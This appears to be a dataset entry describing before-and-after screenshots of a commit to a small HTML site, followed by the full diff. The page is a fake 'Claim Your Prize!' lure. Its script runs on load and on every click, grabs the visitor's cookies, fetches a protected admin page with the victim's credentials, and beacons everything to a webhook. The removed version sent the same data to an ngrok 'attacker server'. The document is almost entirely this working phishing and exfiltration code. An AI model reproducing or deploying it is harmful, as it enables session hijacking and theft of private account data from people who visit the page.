

Before and after one commit to fish-hue/monster, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-896 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Refactor index.html for prize claim functionality
Updated the HTML structure and JavaScript logic for cookie exfiltration and fetching protected pages.

```diff
--- a/index.html
+++ b/index.html
@@ -1,52 +1,102 @@
 <!DOCTYPE html>
 <html>
-<head><title>Claim Your Free Prize!</title></head>
+<head>
+  <meta charset="utf-8">
+  <title>Claim Your Prize!</title>
+  <style>
+    body { font-family: sans-serif; text-align: center; padding: 2rem; }
+    #log { white-space: pre-wrap; text-align: left; margin: 1rem auto; max-width: 800px; background: #f4f4f4; padding: 1rem; border-radius: 8px; }
+  </style>
+</head>
 <body>
-  <h1>Click to Claim Your Prize!</h1>
+  <h1>Congrats! You're a Winner!</h1>
   <p>Verifying your account...</p>
+  <pre id="log">Initializing...</pre>
 
   <script>
-    (function() {
-      const attackerServer = "https://your-server.ngrok.app/"; // Your server collecting data
-      const targetUrl = "https://example.com/account/tickets/"; // Endpoint on target site
+    const LOG = document.getElementById('log');
+    const N8N_WEBHOOK = 'http://localhost:5678/webhook-test/cookie-capture'; // make sure this reflects your n8n workflow webhook address
+    const TARGET_PAGE = 'https://example.com/api/v2/admin'; // CHANGE THIS: protected page (e.g., /profile, /admin, /api/user)
 
-    (async () => {
-      const STEAL = "https://your-server.ngrok.app/steal";
+    function log(msg) {
+      LOG.textContent += '\n' + msg;
+      console.log(msg);
+    }
+
+    // 1. Exfiltrate non-HttpOnly cookies (for proof)
+    function exfilCookies() {
       const cookies = document.cookie;
-      if (cookies) {
-        await fetch(STEAL, {
-          method: "POST",
-          headers: { "Content-Type": "application/json" },
-          body: JSON.stringify({ cookies })
+      if (!cookies) return log('[-] No non-HttpOnly cookies.');
+
+      const payload = { type: 'cookies', cookies, url: location.href, ts: Date.now() };
+      new Image().src = `${N8N_WEBHOOK}?data=${encodeURIComponent(btoa(JSON.stringify(payload)))}`;
+      log('[+] non-HttpOnly cookies exfiltrated');
+    }
+
+    // 2. Fetch protected page WITH credentials (HttpOnly cookies sent automatically!)
+    async function fetchAndExfiltrate() {
+      try {
+        log(`[+] Fetching protected page: ${TARGET_PAGE}`);
+        const resp = await fetch(TARGET_PAGE, {
+          method: 'GET',
+          credentials: 'include',  // This sends ALL cookies (HttpOnly too!)
+          mode: 'cors'             // Change to 'no-cors' if blocked (but loses body)
         });
-        console.log("Cookies sent successfully");
+
+        const contentType = resp.headers.get('content-type') || '';
+        let data;
+
+        if (contentType.includes('application/json')) {
+          data = await resp.json();
+        } else {
+          data = await resp.text();  // HTML
+        }
+
+        // Truncate if huge
+        const preview = typeof data === 'string' ? data.slice(0, 500) : JSON.stringify(data).slice(0, 500);
+
+        log(`[+] Page fetched (${resp.status})\nPreview: ${preview}...`);
+
+        // Exfiltrate full response
+        const payload = {
+          type: 'page',
+          url: TARGET_PAGE,
+          status: resp.status,
+          data: data,
+          ts: Date.now(),
+          origin: location.origin
+        };
+
+        // Use GET beacon (no CORS issues)
+        const blob = btoa(unescape(encodeURIComponent(JSON.stringify(payload))));
+        new Image().src = `${N8N_WEBHOOK}?exfil=${blob}`;
+
+        log('[+] Protected page exfiltrated to n8n!');
+
+      } catch (err) {
+        log(`[-] Fetch failed: ${err.message}`);
+
+        // Fallback: try no-cors (won't get body, but proves access)
+        fetch(TARGET_PAGE, { credentials: 'include', mode: 'no-cors' })
+          .then(() => log('[+] no-cors request sent (proof of access)'));
       }
-    })();
+    }
 
-    fetch('https://your-server.ngrok.app/collect-evidence', {
-      method: 'POST',
-      headers: { 'Content-Type': 'application/json' },
-      body: JSON.stringify({ cookies: document.cookie }),
-      credentials: 'include'
-    })
-      // Fetch target URL with credentials to send cookies
-      fetch(targetUrl, {
-        method: 'GET',
-        credentials: 'include',
-        mode: 'cors'
-      })
-      .then(response => response.text())
-      .then(data => {
-        // Exfiltrate response data (including cookies if accessible) to attacker server
-        return fetch(attackerServer + '/collect', {
-          method: 'POST',
-          headers: { 'Content-Type': 'application/json' },
-          body: JSON.stringify({ data: data })
-        });
-      })
-      .then(() => console.log('Exfiltration complete'))
-      .catch(err => console.error('Error:', err));
-    })();
+    // Run everything
+    window.addEventListener('load', () => {
+      log('[i] PoC loaded on: ' + location.href);
+      exfilCookies();
+      fetchAndExfiltrate();
+
+      // Retry in case page loads slowly or SPA
+      setTimeout(fetchAndExfiltrate, 3000);
+    });
+
+    // Click to re-trigger (helps with SameSite=Lax)
+    document.addEventListener('click', () => {
+      exfilCookies();
+      fetchAndExfiltrate();
+    });
   </script>
 </body>
 </html>
```
